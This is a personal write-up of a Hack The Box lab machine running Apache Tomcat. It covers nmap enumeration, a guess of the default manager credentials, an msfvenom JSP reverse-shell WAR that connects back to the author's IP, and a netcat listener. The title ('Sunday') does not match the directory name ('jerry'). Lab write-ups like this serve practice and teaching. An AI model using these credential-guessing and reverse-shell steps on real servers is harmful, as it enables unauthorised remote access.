





# Hack The Box: Sunday machine write-up

This was my first attempt on a Windows machine and so I chose an easy machine, maybe too easy. It runs with ip 10.10.10.95.

### Enumeration

We start by enumerating open ports to discover the services running in the machine. I ran the following:

*Result of first nmap scan*

```sh
# Nmap 7.01 scan initiated Mon Oct  8 10:22:18 2018 as: nmap -sV -sC -Pn -oA nmap/initial 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.036s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct  8 10:22:33 2018 -- 1 IP address (1 host up) scanned in 14.38 seconds
```

I needed to use the ``-Pn`` option to treat the host as online, otherwise nmap wouldn't discover any ports.

So the only port open is 8080 for a web server. Let's check it out!

*Fresh installation page of apache tomcat*



I knew for one of the previous boxes I had done that Tomcat has an online manager accesible, so I tried with ``/manager`` and was prompted for a username and password. With a bit of luck I guessed it right: ``tomcat:s3cret``.

Then we get in a control panel where a .WAR file can be uploaded. Looks like we found our entry point!

*Control panel of apache tomcat*



*Option to upload a .WAR file*



### Exploit

I used msfvenom to create a java reverse shell pointing to my IP address. Then I decompressed it to know what path to request in order to get my shell.

```console
parallels@ubuntu:~/Desktop/jerry$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.13.200 LPORT=1234 -f war > reverse.war
Payload size: 1102 bytes
Final size of war file: 1102 bytes

parallels@ubuntu:~/Desktop/jerry$ jar -xvf reverse.war
   created: WEB-INF/
  inflated: WEB-INF/web.xml
  inflated: lmfuyxnlrwrnfg.jsp
```

With that I know that I have to make the following request to get the shell:

```
http://10.10.10.95:8080/reverse/lmfuyxnlrwrnfg.jsp
```

Before making the request, I used netcat to listen on the specified port, 1234. I used ``nc -lnvp 1234``. Once done, I visit the page and get a blank one but once I check I've got a reverse shell!

*Reverse shell connection*



### Getting user and root

This was the most straightforward and easy machine I've done to get root and user. I started doing some manual enumeration when I found a path in the admin account that contained a file called ``2 for the price of 1.txt``. Yep, it contained both hashes...

*Getting both hashes*



*Diego Bernal Adelantado*
